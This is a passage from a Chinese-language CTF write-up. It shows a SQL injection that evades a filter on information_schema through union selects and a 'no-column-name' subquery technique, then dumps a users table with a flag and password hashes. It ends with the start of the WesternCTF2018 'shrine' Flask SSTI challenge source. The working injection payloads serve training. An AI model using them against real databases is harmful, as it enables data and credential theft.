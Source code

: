 看看文档查表名：

```
-1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),user(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22
```

发现一个FLAG_TABLE。因为information_schema被过滤，查不到列名，这里使用无列名注入的技术。

无列名注入实际上就是这样的结构:

```
select 1,2,3 union select * from Another_Table
```

注意前面的数字一定要和后面的表列数相同。这是一个子查询，如果对这个子查询进行查询，那么子查询的列名就已知了，我们就可以这样构造

```
select `2` from (select 1,2,3 union select * from Another_Table)x
```

于是可以依照此思路尝试。

```
-1'union/**/select/**/1,(select/**/group_concat(b)/**/from(select/**/1/**/as/**/b,2,3/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

> 1,1,2,3

-1'union/**/select/**/1,(select/**/group_concat(b)/**/from(select/**/1,2/**/as/**/b,3/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

>2,flag,admin,test

-1'union/**/select/**/1,(select/**/group_concat(b)/**/from(select/**/1,2,3/**/as/**/b/**/union/**/select*from/**/users)x),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22

>3,flag{e2f69eb9-91ca-43ee-bb74-bd81bd3e2860},53e217ad4c721eb9565cf25a5ec3b66e,202cb962ac59075b964b07152d234b70
```

`flag{e2f69eb9-91ca-43ee-bb74-bd81bd3e2860}`

## [WesternCTF2018]shrine

给出源代码，看来是SSTI，把括号都替换掉了，又过滤了两个关键词`config`和`self`

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')

@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
```